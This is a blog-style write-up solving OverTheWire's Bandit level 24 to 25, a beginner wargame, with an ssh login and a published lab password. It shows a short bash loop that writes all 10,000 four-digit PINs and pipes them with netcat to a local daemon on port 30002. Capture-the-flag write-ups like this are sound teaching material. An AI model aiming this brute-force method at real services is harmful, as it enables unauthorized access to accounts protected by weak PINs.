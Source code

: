 ```yaml
---
layout: post
title: "Bandit Level 24 → Level 25 | OverTheWire"
description: "Learn linux command by playing Bandit wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 24 → Level 25. In this level you will learn how to bruteforce password and connect to a remote machine on a port. The passwords are hidden, so you have to find the passwords for next level yourself."
author: "Programmercave"
header-img: "/assets/Bandit-Overthewire/overthewire_poster.jpg"
tags:  [Linux, OverTheWire-Bandit, CTF]
date: 2019-12-26
---
```


Learn linux command by playing [Bandit](https://overthewire.org/wargames/bandit/) wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 24 → Level 25. 

In this level you will learn how to bruteforce password and connect to a remote machine on a port. 

The passwords are hidden, so you have to find the passwords for next level yourself.

![Bandit OverTheWire]({{ site.url }}/assets/Bandit-Overthewire/overthewire_poster.jpg){:class="img-responsive"}

### Previous Post

[Bandit Level 0 to Level 3]({{ site.url }}/blog/2019/12/21/Bandit-Level-0-to-Level-5-OverTheWire)<br/>
[Bandit Level 4 to Level 8]({{ site.url }}/blog/2019/12/22/Bandit-Level-4-to-Level-9-OverTheWire)<br/>
[Bandit Level 9 to Level 11]({{ site.url }}/blog/2019/12/24/Bandit-Level-9-to-Level-12-OverTheWire)<br/>
[Bandit Level 12 → Level 13]({{ site.url }}/blog/2019/12/24/Bandit-Level-12-Level-13-OverTheWire)<br/>
[Bandit Level 13 to Level 15]({{ site.url }}/blog/2019/12/24/Bandit-Level-13-to-Level-16-OverTheWire)<br/>
[Bandit Level 16 to Level 18]({{ site.url }}/blog/2019/12/24/Bandit-Level-16-to-Level-19-OverTheWire)<br/>
[Bandit Level 19 to Level 20]({{ site.url }}/blog/2019/12/25/Bandit-Level-19-to-Level-20-OverTheWire)<br/>
[Bandit Level 21 to Level 22]({{ site.url }}/blog/2019/12/25/Bandit-Level-21-to-Level-23-OverTheWire)<br/>
[Bandit Level 23 → Level 24]({{ site.url }}/blog/2019/12/25/Bandit-Level-23-Level-24-OverTheWire)

## [Bandit Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

### Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

### Solution : 

Command to connect remote host : `ssh bandit24@bandit.labs.overthewire.org -p 2220` password is `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` .

We can connect on port 30002 in a same way as we have done in level 20. We also have to pass password for current level and the 4 digit pin.The command is
```
nc localhost 30002  UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ****
```

To brute-force pin we wil write a shell script in */tmp/mydir123* directory.
 
The script is
``` 
#!/bin/bash
for i in {0000..9999}
do 
	echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
```

The name of the script is *bruteforcescript.sh* and file *combinations.txt* will store all combinations of 4 digit number with password for bandit20. First we have to make bruteforcescript.sh executable using command 
```
chmod 700 bruteforcescript.sh
./bruteforcescript.sh > combinations.txt
```

And the final command is
```
nc localhost 30002 < combinations.txt
```
The password for the next level is `****` .

![Bandit Level 24 25]({{ site.url }}/assets/Bandit-Overthewire/bandit_l2425_terminal.jpg){:class="img-responsive"}

Reference : [https://unix.stackexchange.com/questions/432904/brute-force-4-digit-pin-with-pass-using-shell-script](https://unix.stackexchange.com/questions/432904/brute-force-4-digit-pin-with-pass-using-shell-script)<br/>
[https://skyenet.tech/brute-force-password-attacking/](https://skyenet.tech/brute-force-password-attacking/)

### Next Post

[Bandit Level 25 to Level 26]({{ site.url }}/blog/2019/12/26/Bandit-Level-25-to-Level-26-OverTheWire)<br/>
[Bandit Level 27 to Level 31]({{ site.url }}/blog/2019/12/26/Bandit-Level-27-to-Level-31-OverTheWire)<br/>
[Bandit Level 32 → Level 33]({{ site.url }}/blog/2019/12/26/Bandit-Level-32-Level-33-OverTheWire)<br/>

### Other Wargames
[Leviathan Wargame from OverTheWire All Level Solutions]({{ site.url }}/blog/#overthewire-leviathan)<br/> 
[Krypton Wargame from OverTheWire All Level Solutions]({{ site.url }}/blog/#overthewire-krypton)<br/>


